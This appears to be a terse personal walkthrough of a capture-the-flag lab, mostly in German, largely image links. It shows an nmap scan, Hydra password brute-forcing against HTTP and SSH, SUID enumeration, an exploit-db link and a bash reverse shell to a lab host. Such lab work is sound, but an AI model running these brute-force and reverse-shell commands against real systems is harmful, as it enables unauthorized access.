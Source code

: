 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![](https://i.imgur.com/tHI2XTr.png)
![](https://i.imgur.com/zDYaCOo.png)
![](https://i.imgur.com/j91Why2.png)
![](https://i.imgur.com/q0VnnIQ.png)
![](https://i.imgur.com/fYH07pU.png)
![](https://i.imgur.com/PwZ7OPm.png)
![](https://i.imgur.com/swWh73v.png)
![](https://i.imgur.com/RP6nULv.png)
![](https://i.imgur.com/LXOBUyI.png)
![](https://i.imgur.com/qAzMgsR.png)
![](https://i.imgur.com/JzQxk21.png)
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![](https://i.imgur.com/te7iJGH.png)
![](https://i.imgur.com/xRTQq5n.png)
`FLAG{use_secure_credentials}`
![](https://i.imgur.com/Y5ivt2h.png)
![](https://i.imgur.com/AtXi9lB.png)
![](https://i.imgur.com/di16GFC.png)
![](https://i.imgur.com/gY0Oxyp.png)
`ls -R *`
![](https://i.imgur.com/4qrGK7s.png)
![](https://i.imgur.com/MdvNqDN.png)
![](https://i.imgur.com/2Xhqji1.png)
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![](https://i.imgur.com/0LOwRRt.png)
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![](https://i.imgur.com/nJoBuRJ.png)
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![](https://i.imgur.com/0KhHbmc.png)
![](https://i.imgur.com/UGcn08t.png)
![](https://i.imgur.com/MFNTBGs.png)
![](https://i.imgur.com/Z885wJP.png)
![](https://i.imgur.com/ziYwvHF.png)
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![](https://i.imgur.com/ne9aUCq.png)
![](https://i.imgur.com/XJU4hYR.png)
![](https://i.imgur.com/WUgbYOs.png)
suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
![](https://i.imgur.com/QgQfBOA.png)
![](https://i.imgur.com/gePh9t6.png)
![](https://i.imgur.com/08agQET.png)
![](https://i.imgur.com/I9rJQwE.png)
